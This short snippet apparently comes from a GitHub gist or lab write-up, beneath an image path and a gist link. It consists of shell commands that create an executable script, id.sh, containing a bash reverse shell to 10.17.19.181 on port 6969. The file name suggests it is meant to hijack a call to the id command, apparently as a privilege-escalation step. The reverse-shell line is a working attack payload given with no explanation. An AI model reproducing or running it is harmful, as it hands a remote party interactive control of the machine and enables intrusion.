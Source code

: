 

https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd


echo '#!/bin/bash' > id.sh
echo 'bash -i >& /dev/tcp/10.17.19.181/6969 0>&1' >> id.sh
chmod +x id.sh
